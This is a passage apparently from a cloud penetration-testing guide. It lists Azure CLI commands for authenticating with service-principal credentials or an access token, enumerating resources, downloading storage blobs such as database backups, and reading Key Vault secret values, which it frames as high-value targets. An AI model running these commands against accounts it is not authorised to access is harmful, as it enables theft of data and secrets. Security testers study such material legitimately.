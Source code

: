 ```bash
# Login with service principal
az login --service-principal \
  --username APP_ID \
  --password CLIENT_SECRET \
  --tenant TENANT_ID

# Or with access token
export AZURE_ACCESS_TOKEN="eyJ0eXAiOiJKV1QiLCJh..."
az account show

# List all accessible resources
az resource list
```

### High-Value Azure Resources

**1. Storage Accounts**
```bash
# List storage accounts
az storage account list

# List containers in storage account
az storage container list --account-name ACCOUNT_NAME

# Download blobs
az storage blob download \
  --account-name ACCOUNT_NAME \
  --container-name CONTAINER \
  --name backup.sql \
  --file ./backup.sql
```

**2. Key Vault**
```bash
# List key vaults
az keyvault list

# List secrets in vault
az keyvault secret list --vault-name VAULT_NAME

# Get secret value
az keyvault secret show --vault-name VAULT_NAME --name SECRET_NAME
```

**3. Virtual Machines**
```bash
# List VMs
az vm list

# Get VM details including public IPs
az vm list-ip-addresses
```

---